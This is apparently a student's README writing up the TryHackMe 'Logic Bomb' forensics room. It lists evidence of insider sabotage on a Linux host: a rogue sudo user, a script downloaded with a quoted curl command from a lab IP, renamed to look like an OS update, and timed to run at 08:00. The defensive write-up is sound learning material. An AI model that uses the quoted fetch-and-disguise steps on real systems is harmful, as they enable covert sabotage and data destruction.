 # 🧨 Logic Bomb Forensics Investigation (TryHackMe)

This project documents my forensic investigation of a suspicious Linux machine during the **"Logic Bomb"** TryHackMe room scenario. I performed a full analysis of the system using CLI tools to uncover evidence of insider threat activity and a logic bomb set to execute under specific conditions.

---

## 🕵️ Scenario Summary

An employee from CyberT’s IT department was arrested for operating a phishing ring. Our task was to investigate their last workstation for evidence of sabotage or malicious behavior. By analyzing logs and files, we uncovered a logic bomb designed to damage systems if certain triggers were met.

---

## 🔧 Tools & Skills Demonstrated

- **Command-Line Tools:** `journalctl`, `grep`, `cat`, `curl`, `vi`
- **Linux Forensics:** Privilege escalation auditing, script analysis, file metadata
- **Threat Analysis:** Insider threats, logic bomb behavior, malicious automation
- **File & Cron Investigation:** User creation, sudo access modification, scheduled execution

---

## 📂 Key Evidence Recovered

| Action | Details |
|-------|---------|
| 📦 Package Installed | `/usr/bin/apt install dokuwiki` |
| 📁 Working Directory | `/home/cybert` |
| 👤 Suspicious User Created | `it-admin` |
| 🔐 Sudoers Modified | `Dec 28 06:27:34` |
| 📝 Script Created | `bomb.sh` |
| 🌐 Source of Script | `curl 10.10.158.38:8080/bomb.sh --output bomb.sh` |
| 🛠️ Renamed Script | `/bin/os-update.sh` |
| 📅 Modified Timestamp | `Dec 28 06:29` |
| 📄 File Created on Execution | `goodbye.txt` |
| ⏰ Scheduled Trigger | `08:00 AM` (via cron or scheduled task) |

---

## 📖 What I Learned

> “This lab taught me how to trace suspicious Linux activity, analyze logs for privilege escalation, and reverse-engineer a logic bomb scenario using basic CLI tools. It sharpened my ability to investigate real-world sabotage tactics and understand how insider threats hide in plain sight.”

---

## 💼 How This Applies in the Real World

- Detecting unauthorized user creation
- Tracking privilege escalation in system logs
- Identifying timed execution scripts (logic bombs)
- Recognizing file tampering or covert data destruction attempts

---

## 📎 Related Tags

`#linux-forensics` `#logic-bomb` `#tryhackme` `#malware-analysis` `#insider-threats` `#curl` `#bash-scripting` `#cybersecurity-project`


